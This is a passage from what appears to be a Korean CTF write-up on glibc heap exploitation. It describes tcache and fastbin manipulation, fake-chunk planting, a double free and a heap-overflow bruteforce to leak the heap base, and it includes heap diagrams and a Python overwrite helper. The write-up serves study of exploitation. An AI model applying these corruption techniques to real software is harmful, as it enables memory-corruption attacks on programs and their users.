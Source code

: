 > Fastbin에는 할당될 때 victim chunk의 크기까지 확인하는 검사가 존재한다.
> 따라서 fastbin을 할당하고자 하는 위치의 size 필드에 정확히 0x21을 넣어주어야 한다.
>
> ```c
> size_t victim_idx = fastbin_index (chunksize (victim));
> if (__builtin_expect (victim_idx != idx, 0))
>     malloc_printerr ("malloc(): memory corruption (fast)");
> ```
{: .prompt-tip}


1. Fill tcache(->7회)
2. 이제부턴 fastbin으로 들어갈 것이므로 쭉 할당받고 fastbin을 채워준다.
3. review 기능으로 큰 청크를 할당받으면 fastbin의 청크들은 consolidate 된다. 
    대신 청크의 fd 같은 값들은 여전히 남아있다.
4. 아래와 같이 fastbin에 미리 가짜 청크를 입력해둔다.
    ```python
    """
    a*0x10 *3
    00000000 00000021
    xxxxxxxx xxxxxxxx
    xxxxxxxx aaaaaaaa
    """
    ```
4. 이제 double free를 이용해서 unsortedbin 청크를 free해버린다.
5. 이후 heap overflow를 활용한 bruteforce로 저 가짜 청크를 할당받는다.
6. 가짜 청크를 할당받았으므로, `reservation`에서 `print("%s")`에 의해 heapbase를 알 수 있다. 


성공적으로 구성되었을 때 힙이 이렇게 보일 것이다.

```python
"""
aaaaaaaa [......] <- unsortedbin chunk
[0x7f..] [0x7f..]
aaaaaaaa aaaaaaaa
...
aaaaaaaa aaaaaaaa
00000000 00000021   <- target fastbin chunk
xxxxxxxx xxxxxxxx   <- 여기로 가짜 청크가 들어오게 되면, reservation에서 `x`자리를 모두 char로 채우면 fd까지 출력된다.
xxxxxxxx aaaaaaaa   <- aaaaaaaa 자리는 원래 0x21이어야 함
[  fd  ] [  bk  ]   <- leak!
"""
```


heap overflow를 쉽게 사용하기 위해서 아래같은 헬퍼 함수를 만들어 두었다.

```python
def overwrite_nextheap(idx, data_size: bytes, data_fd=None):
    if data_fd is not None:
        edit_reserv(idx, b"a" * 0x8 + data_fd, b"a" * 8)
    for i in range(7):  # erase 'a's
        edit_reserv(idx, b"a" * (0x8 - i - 1), b"a" * 8)
    edit_reserv(idx, data_size, b"a" * 8)
```
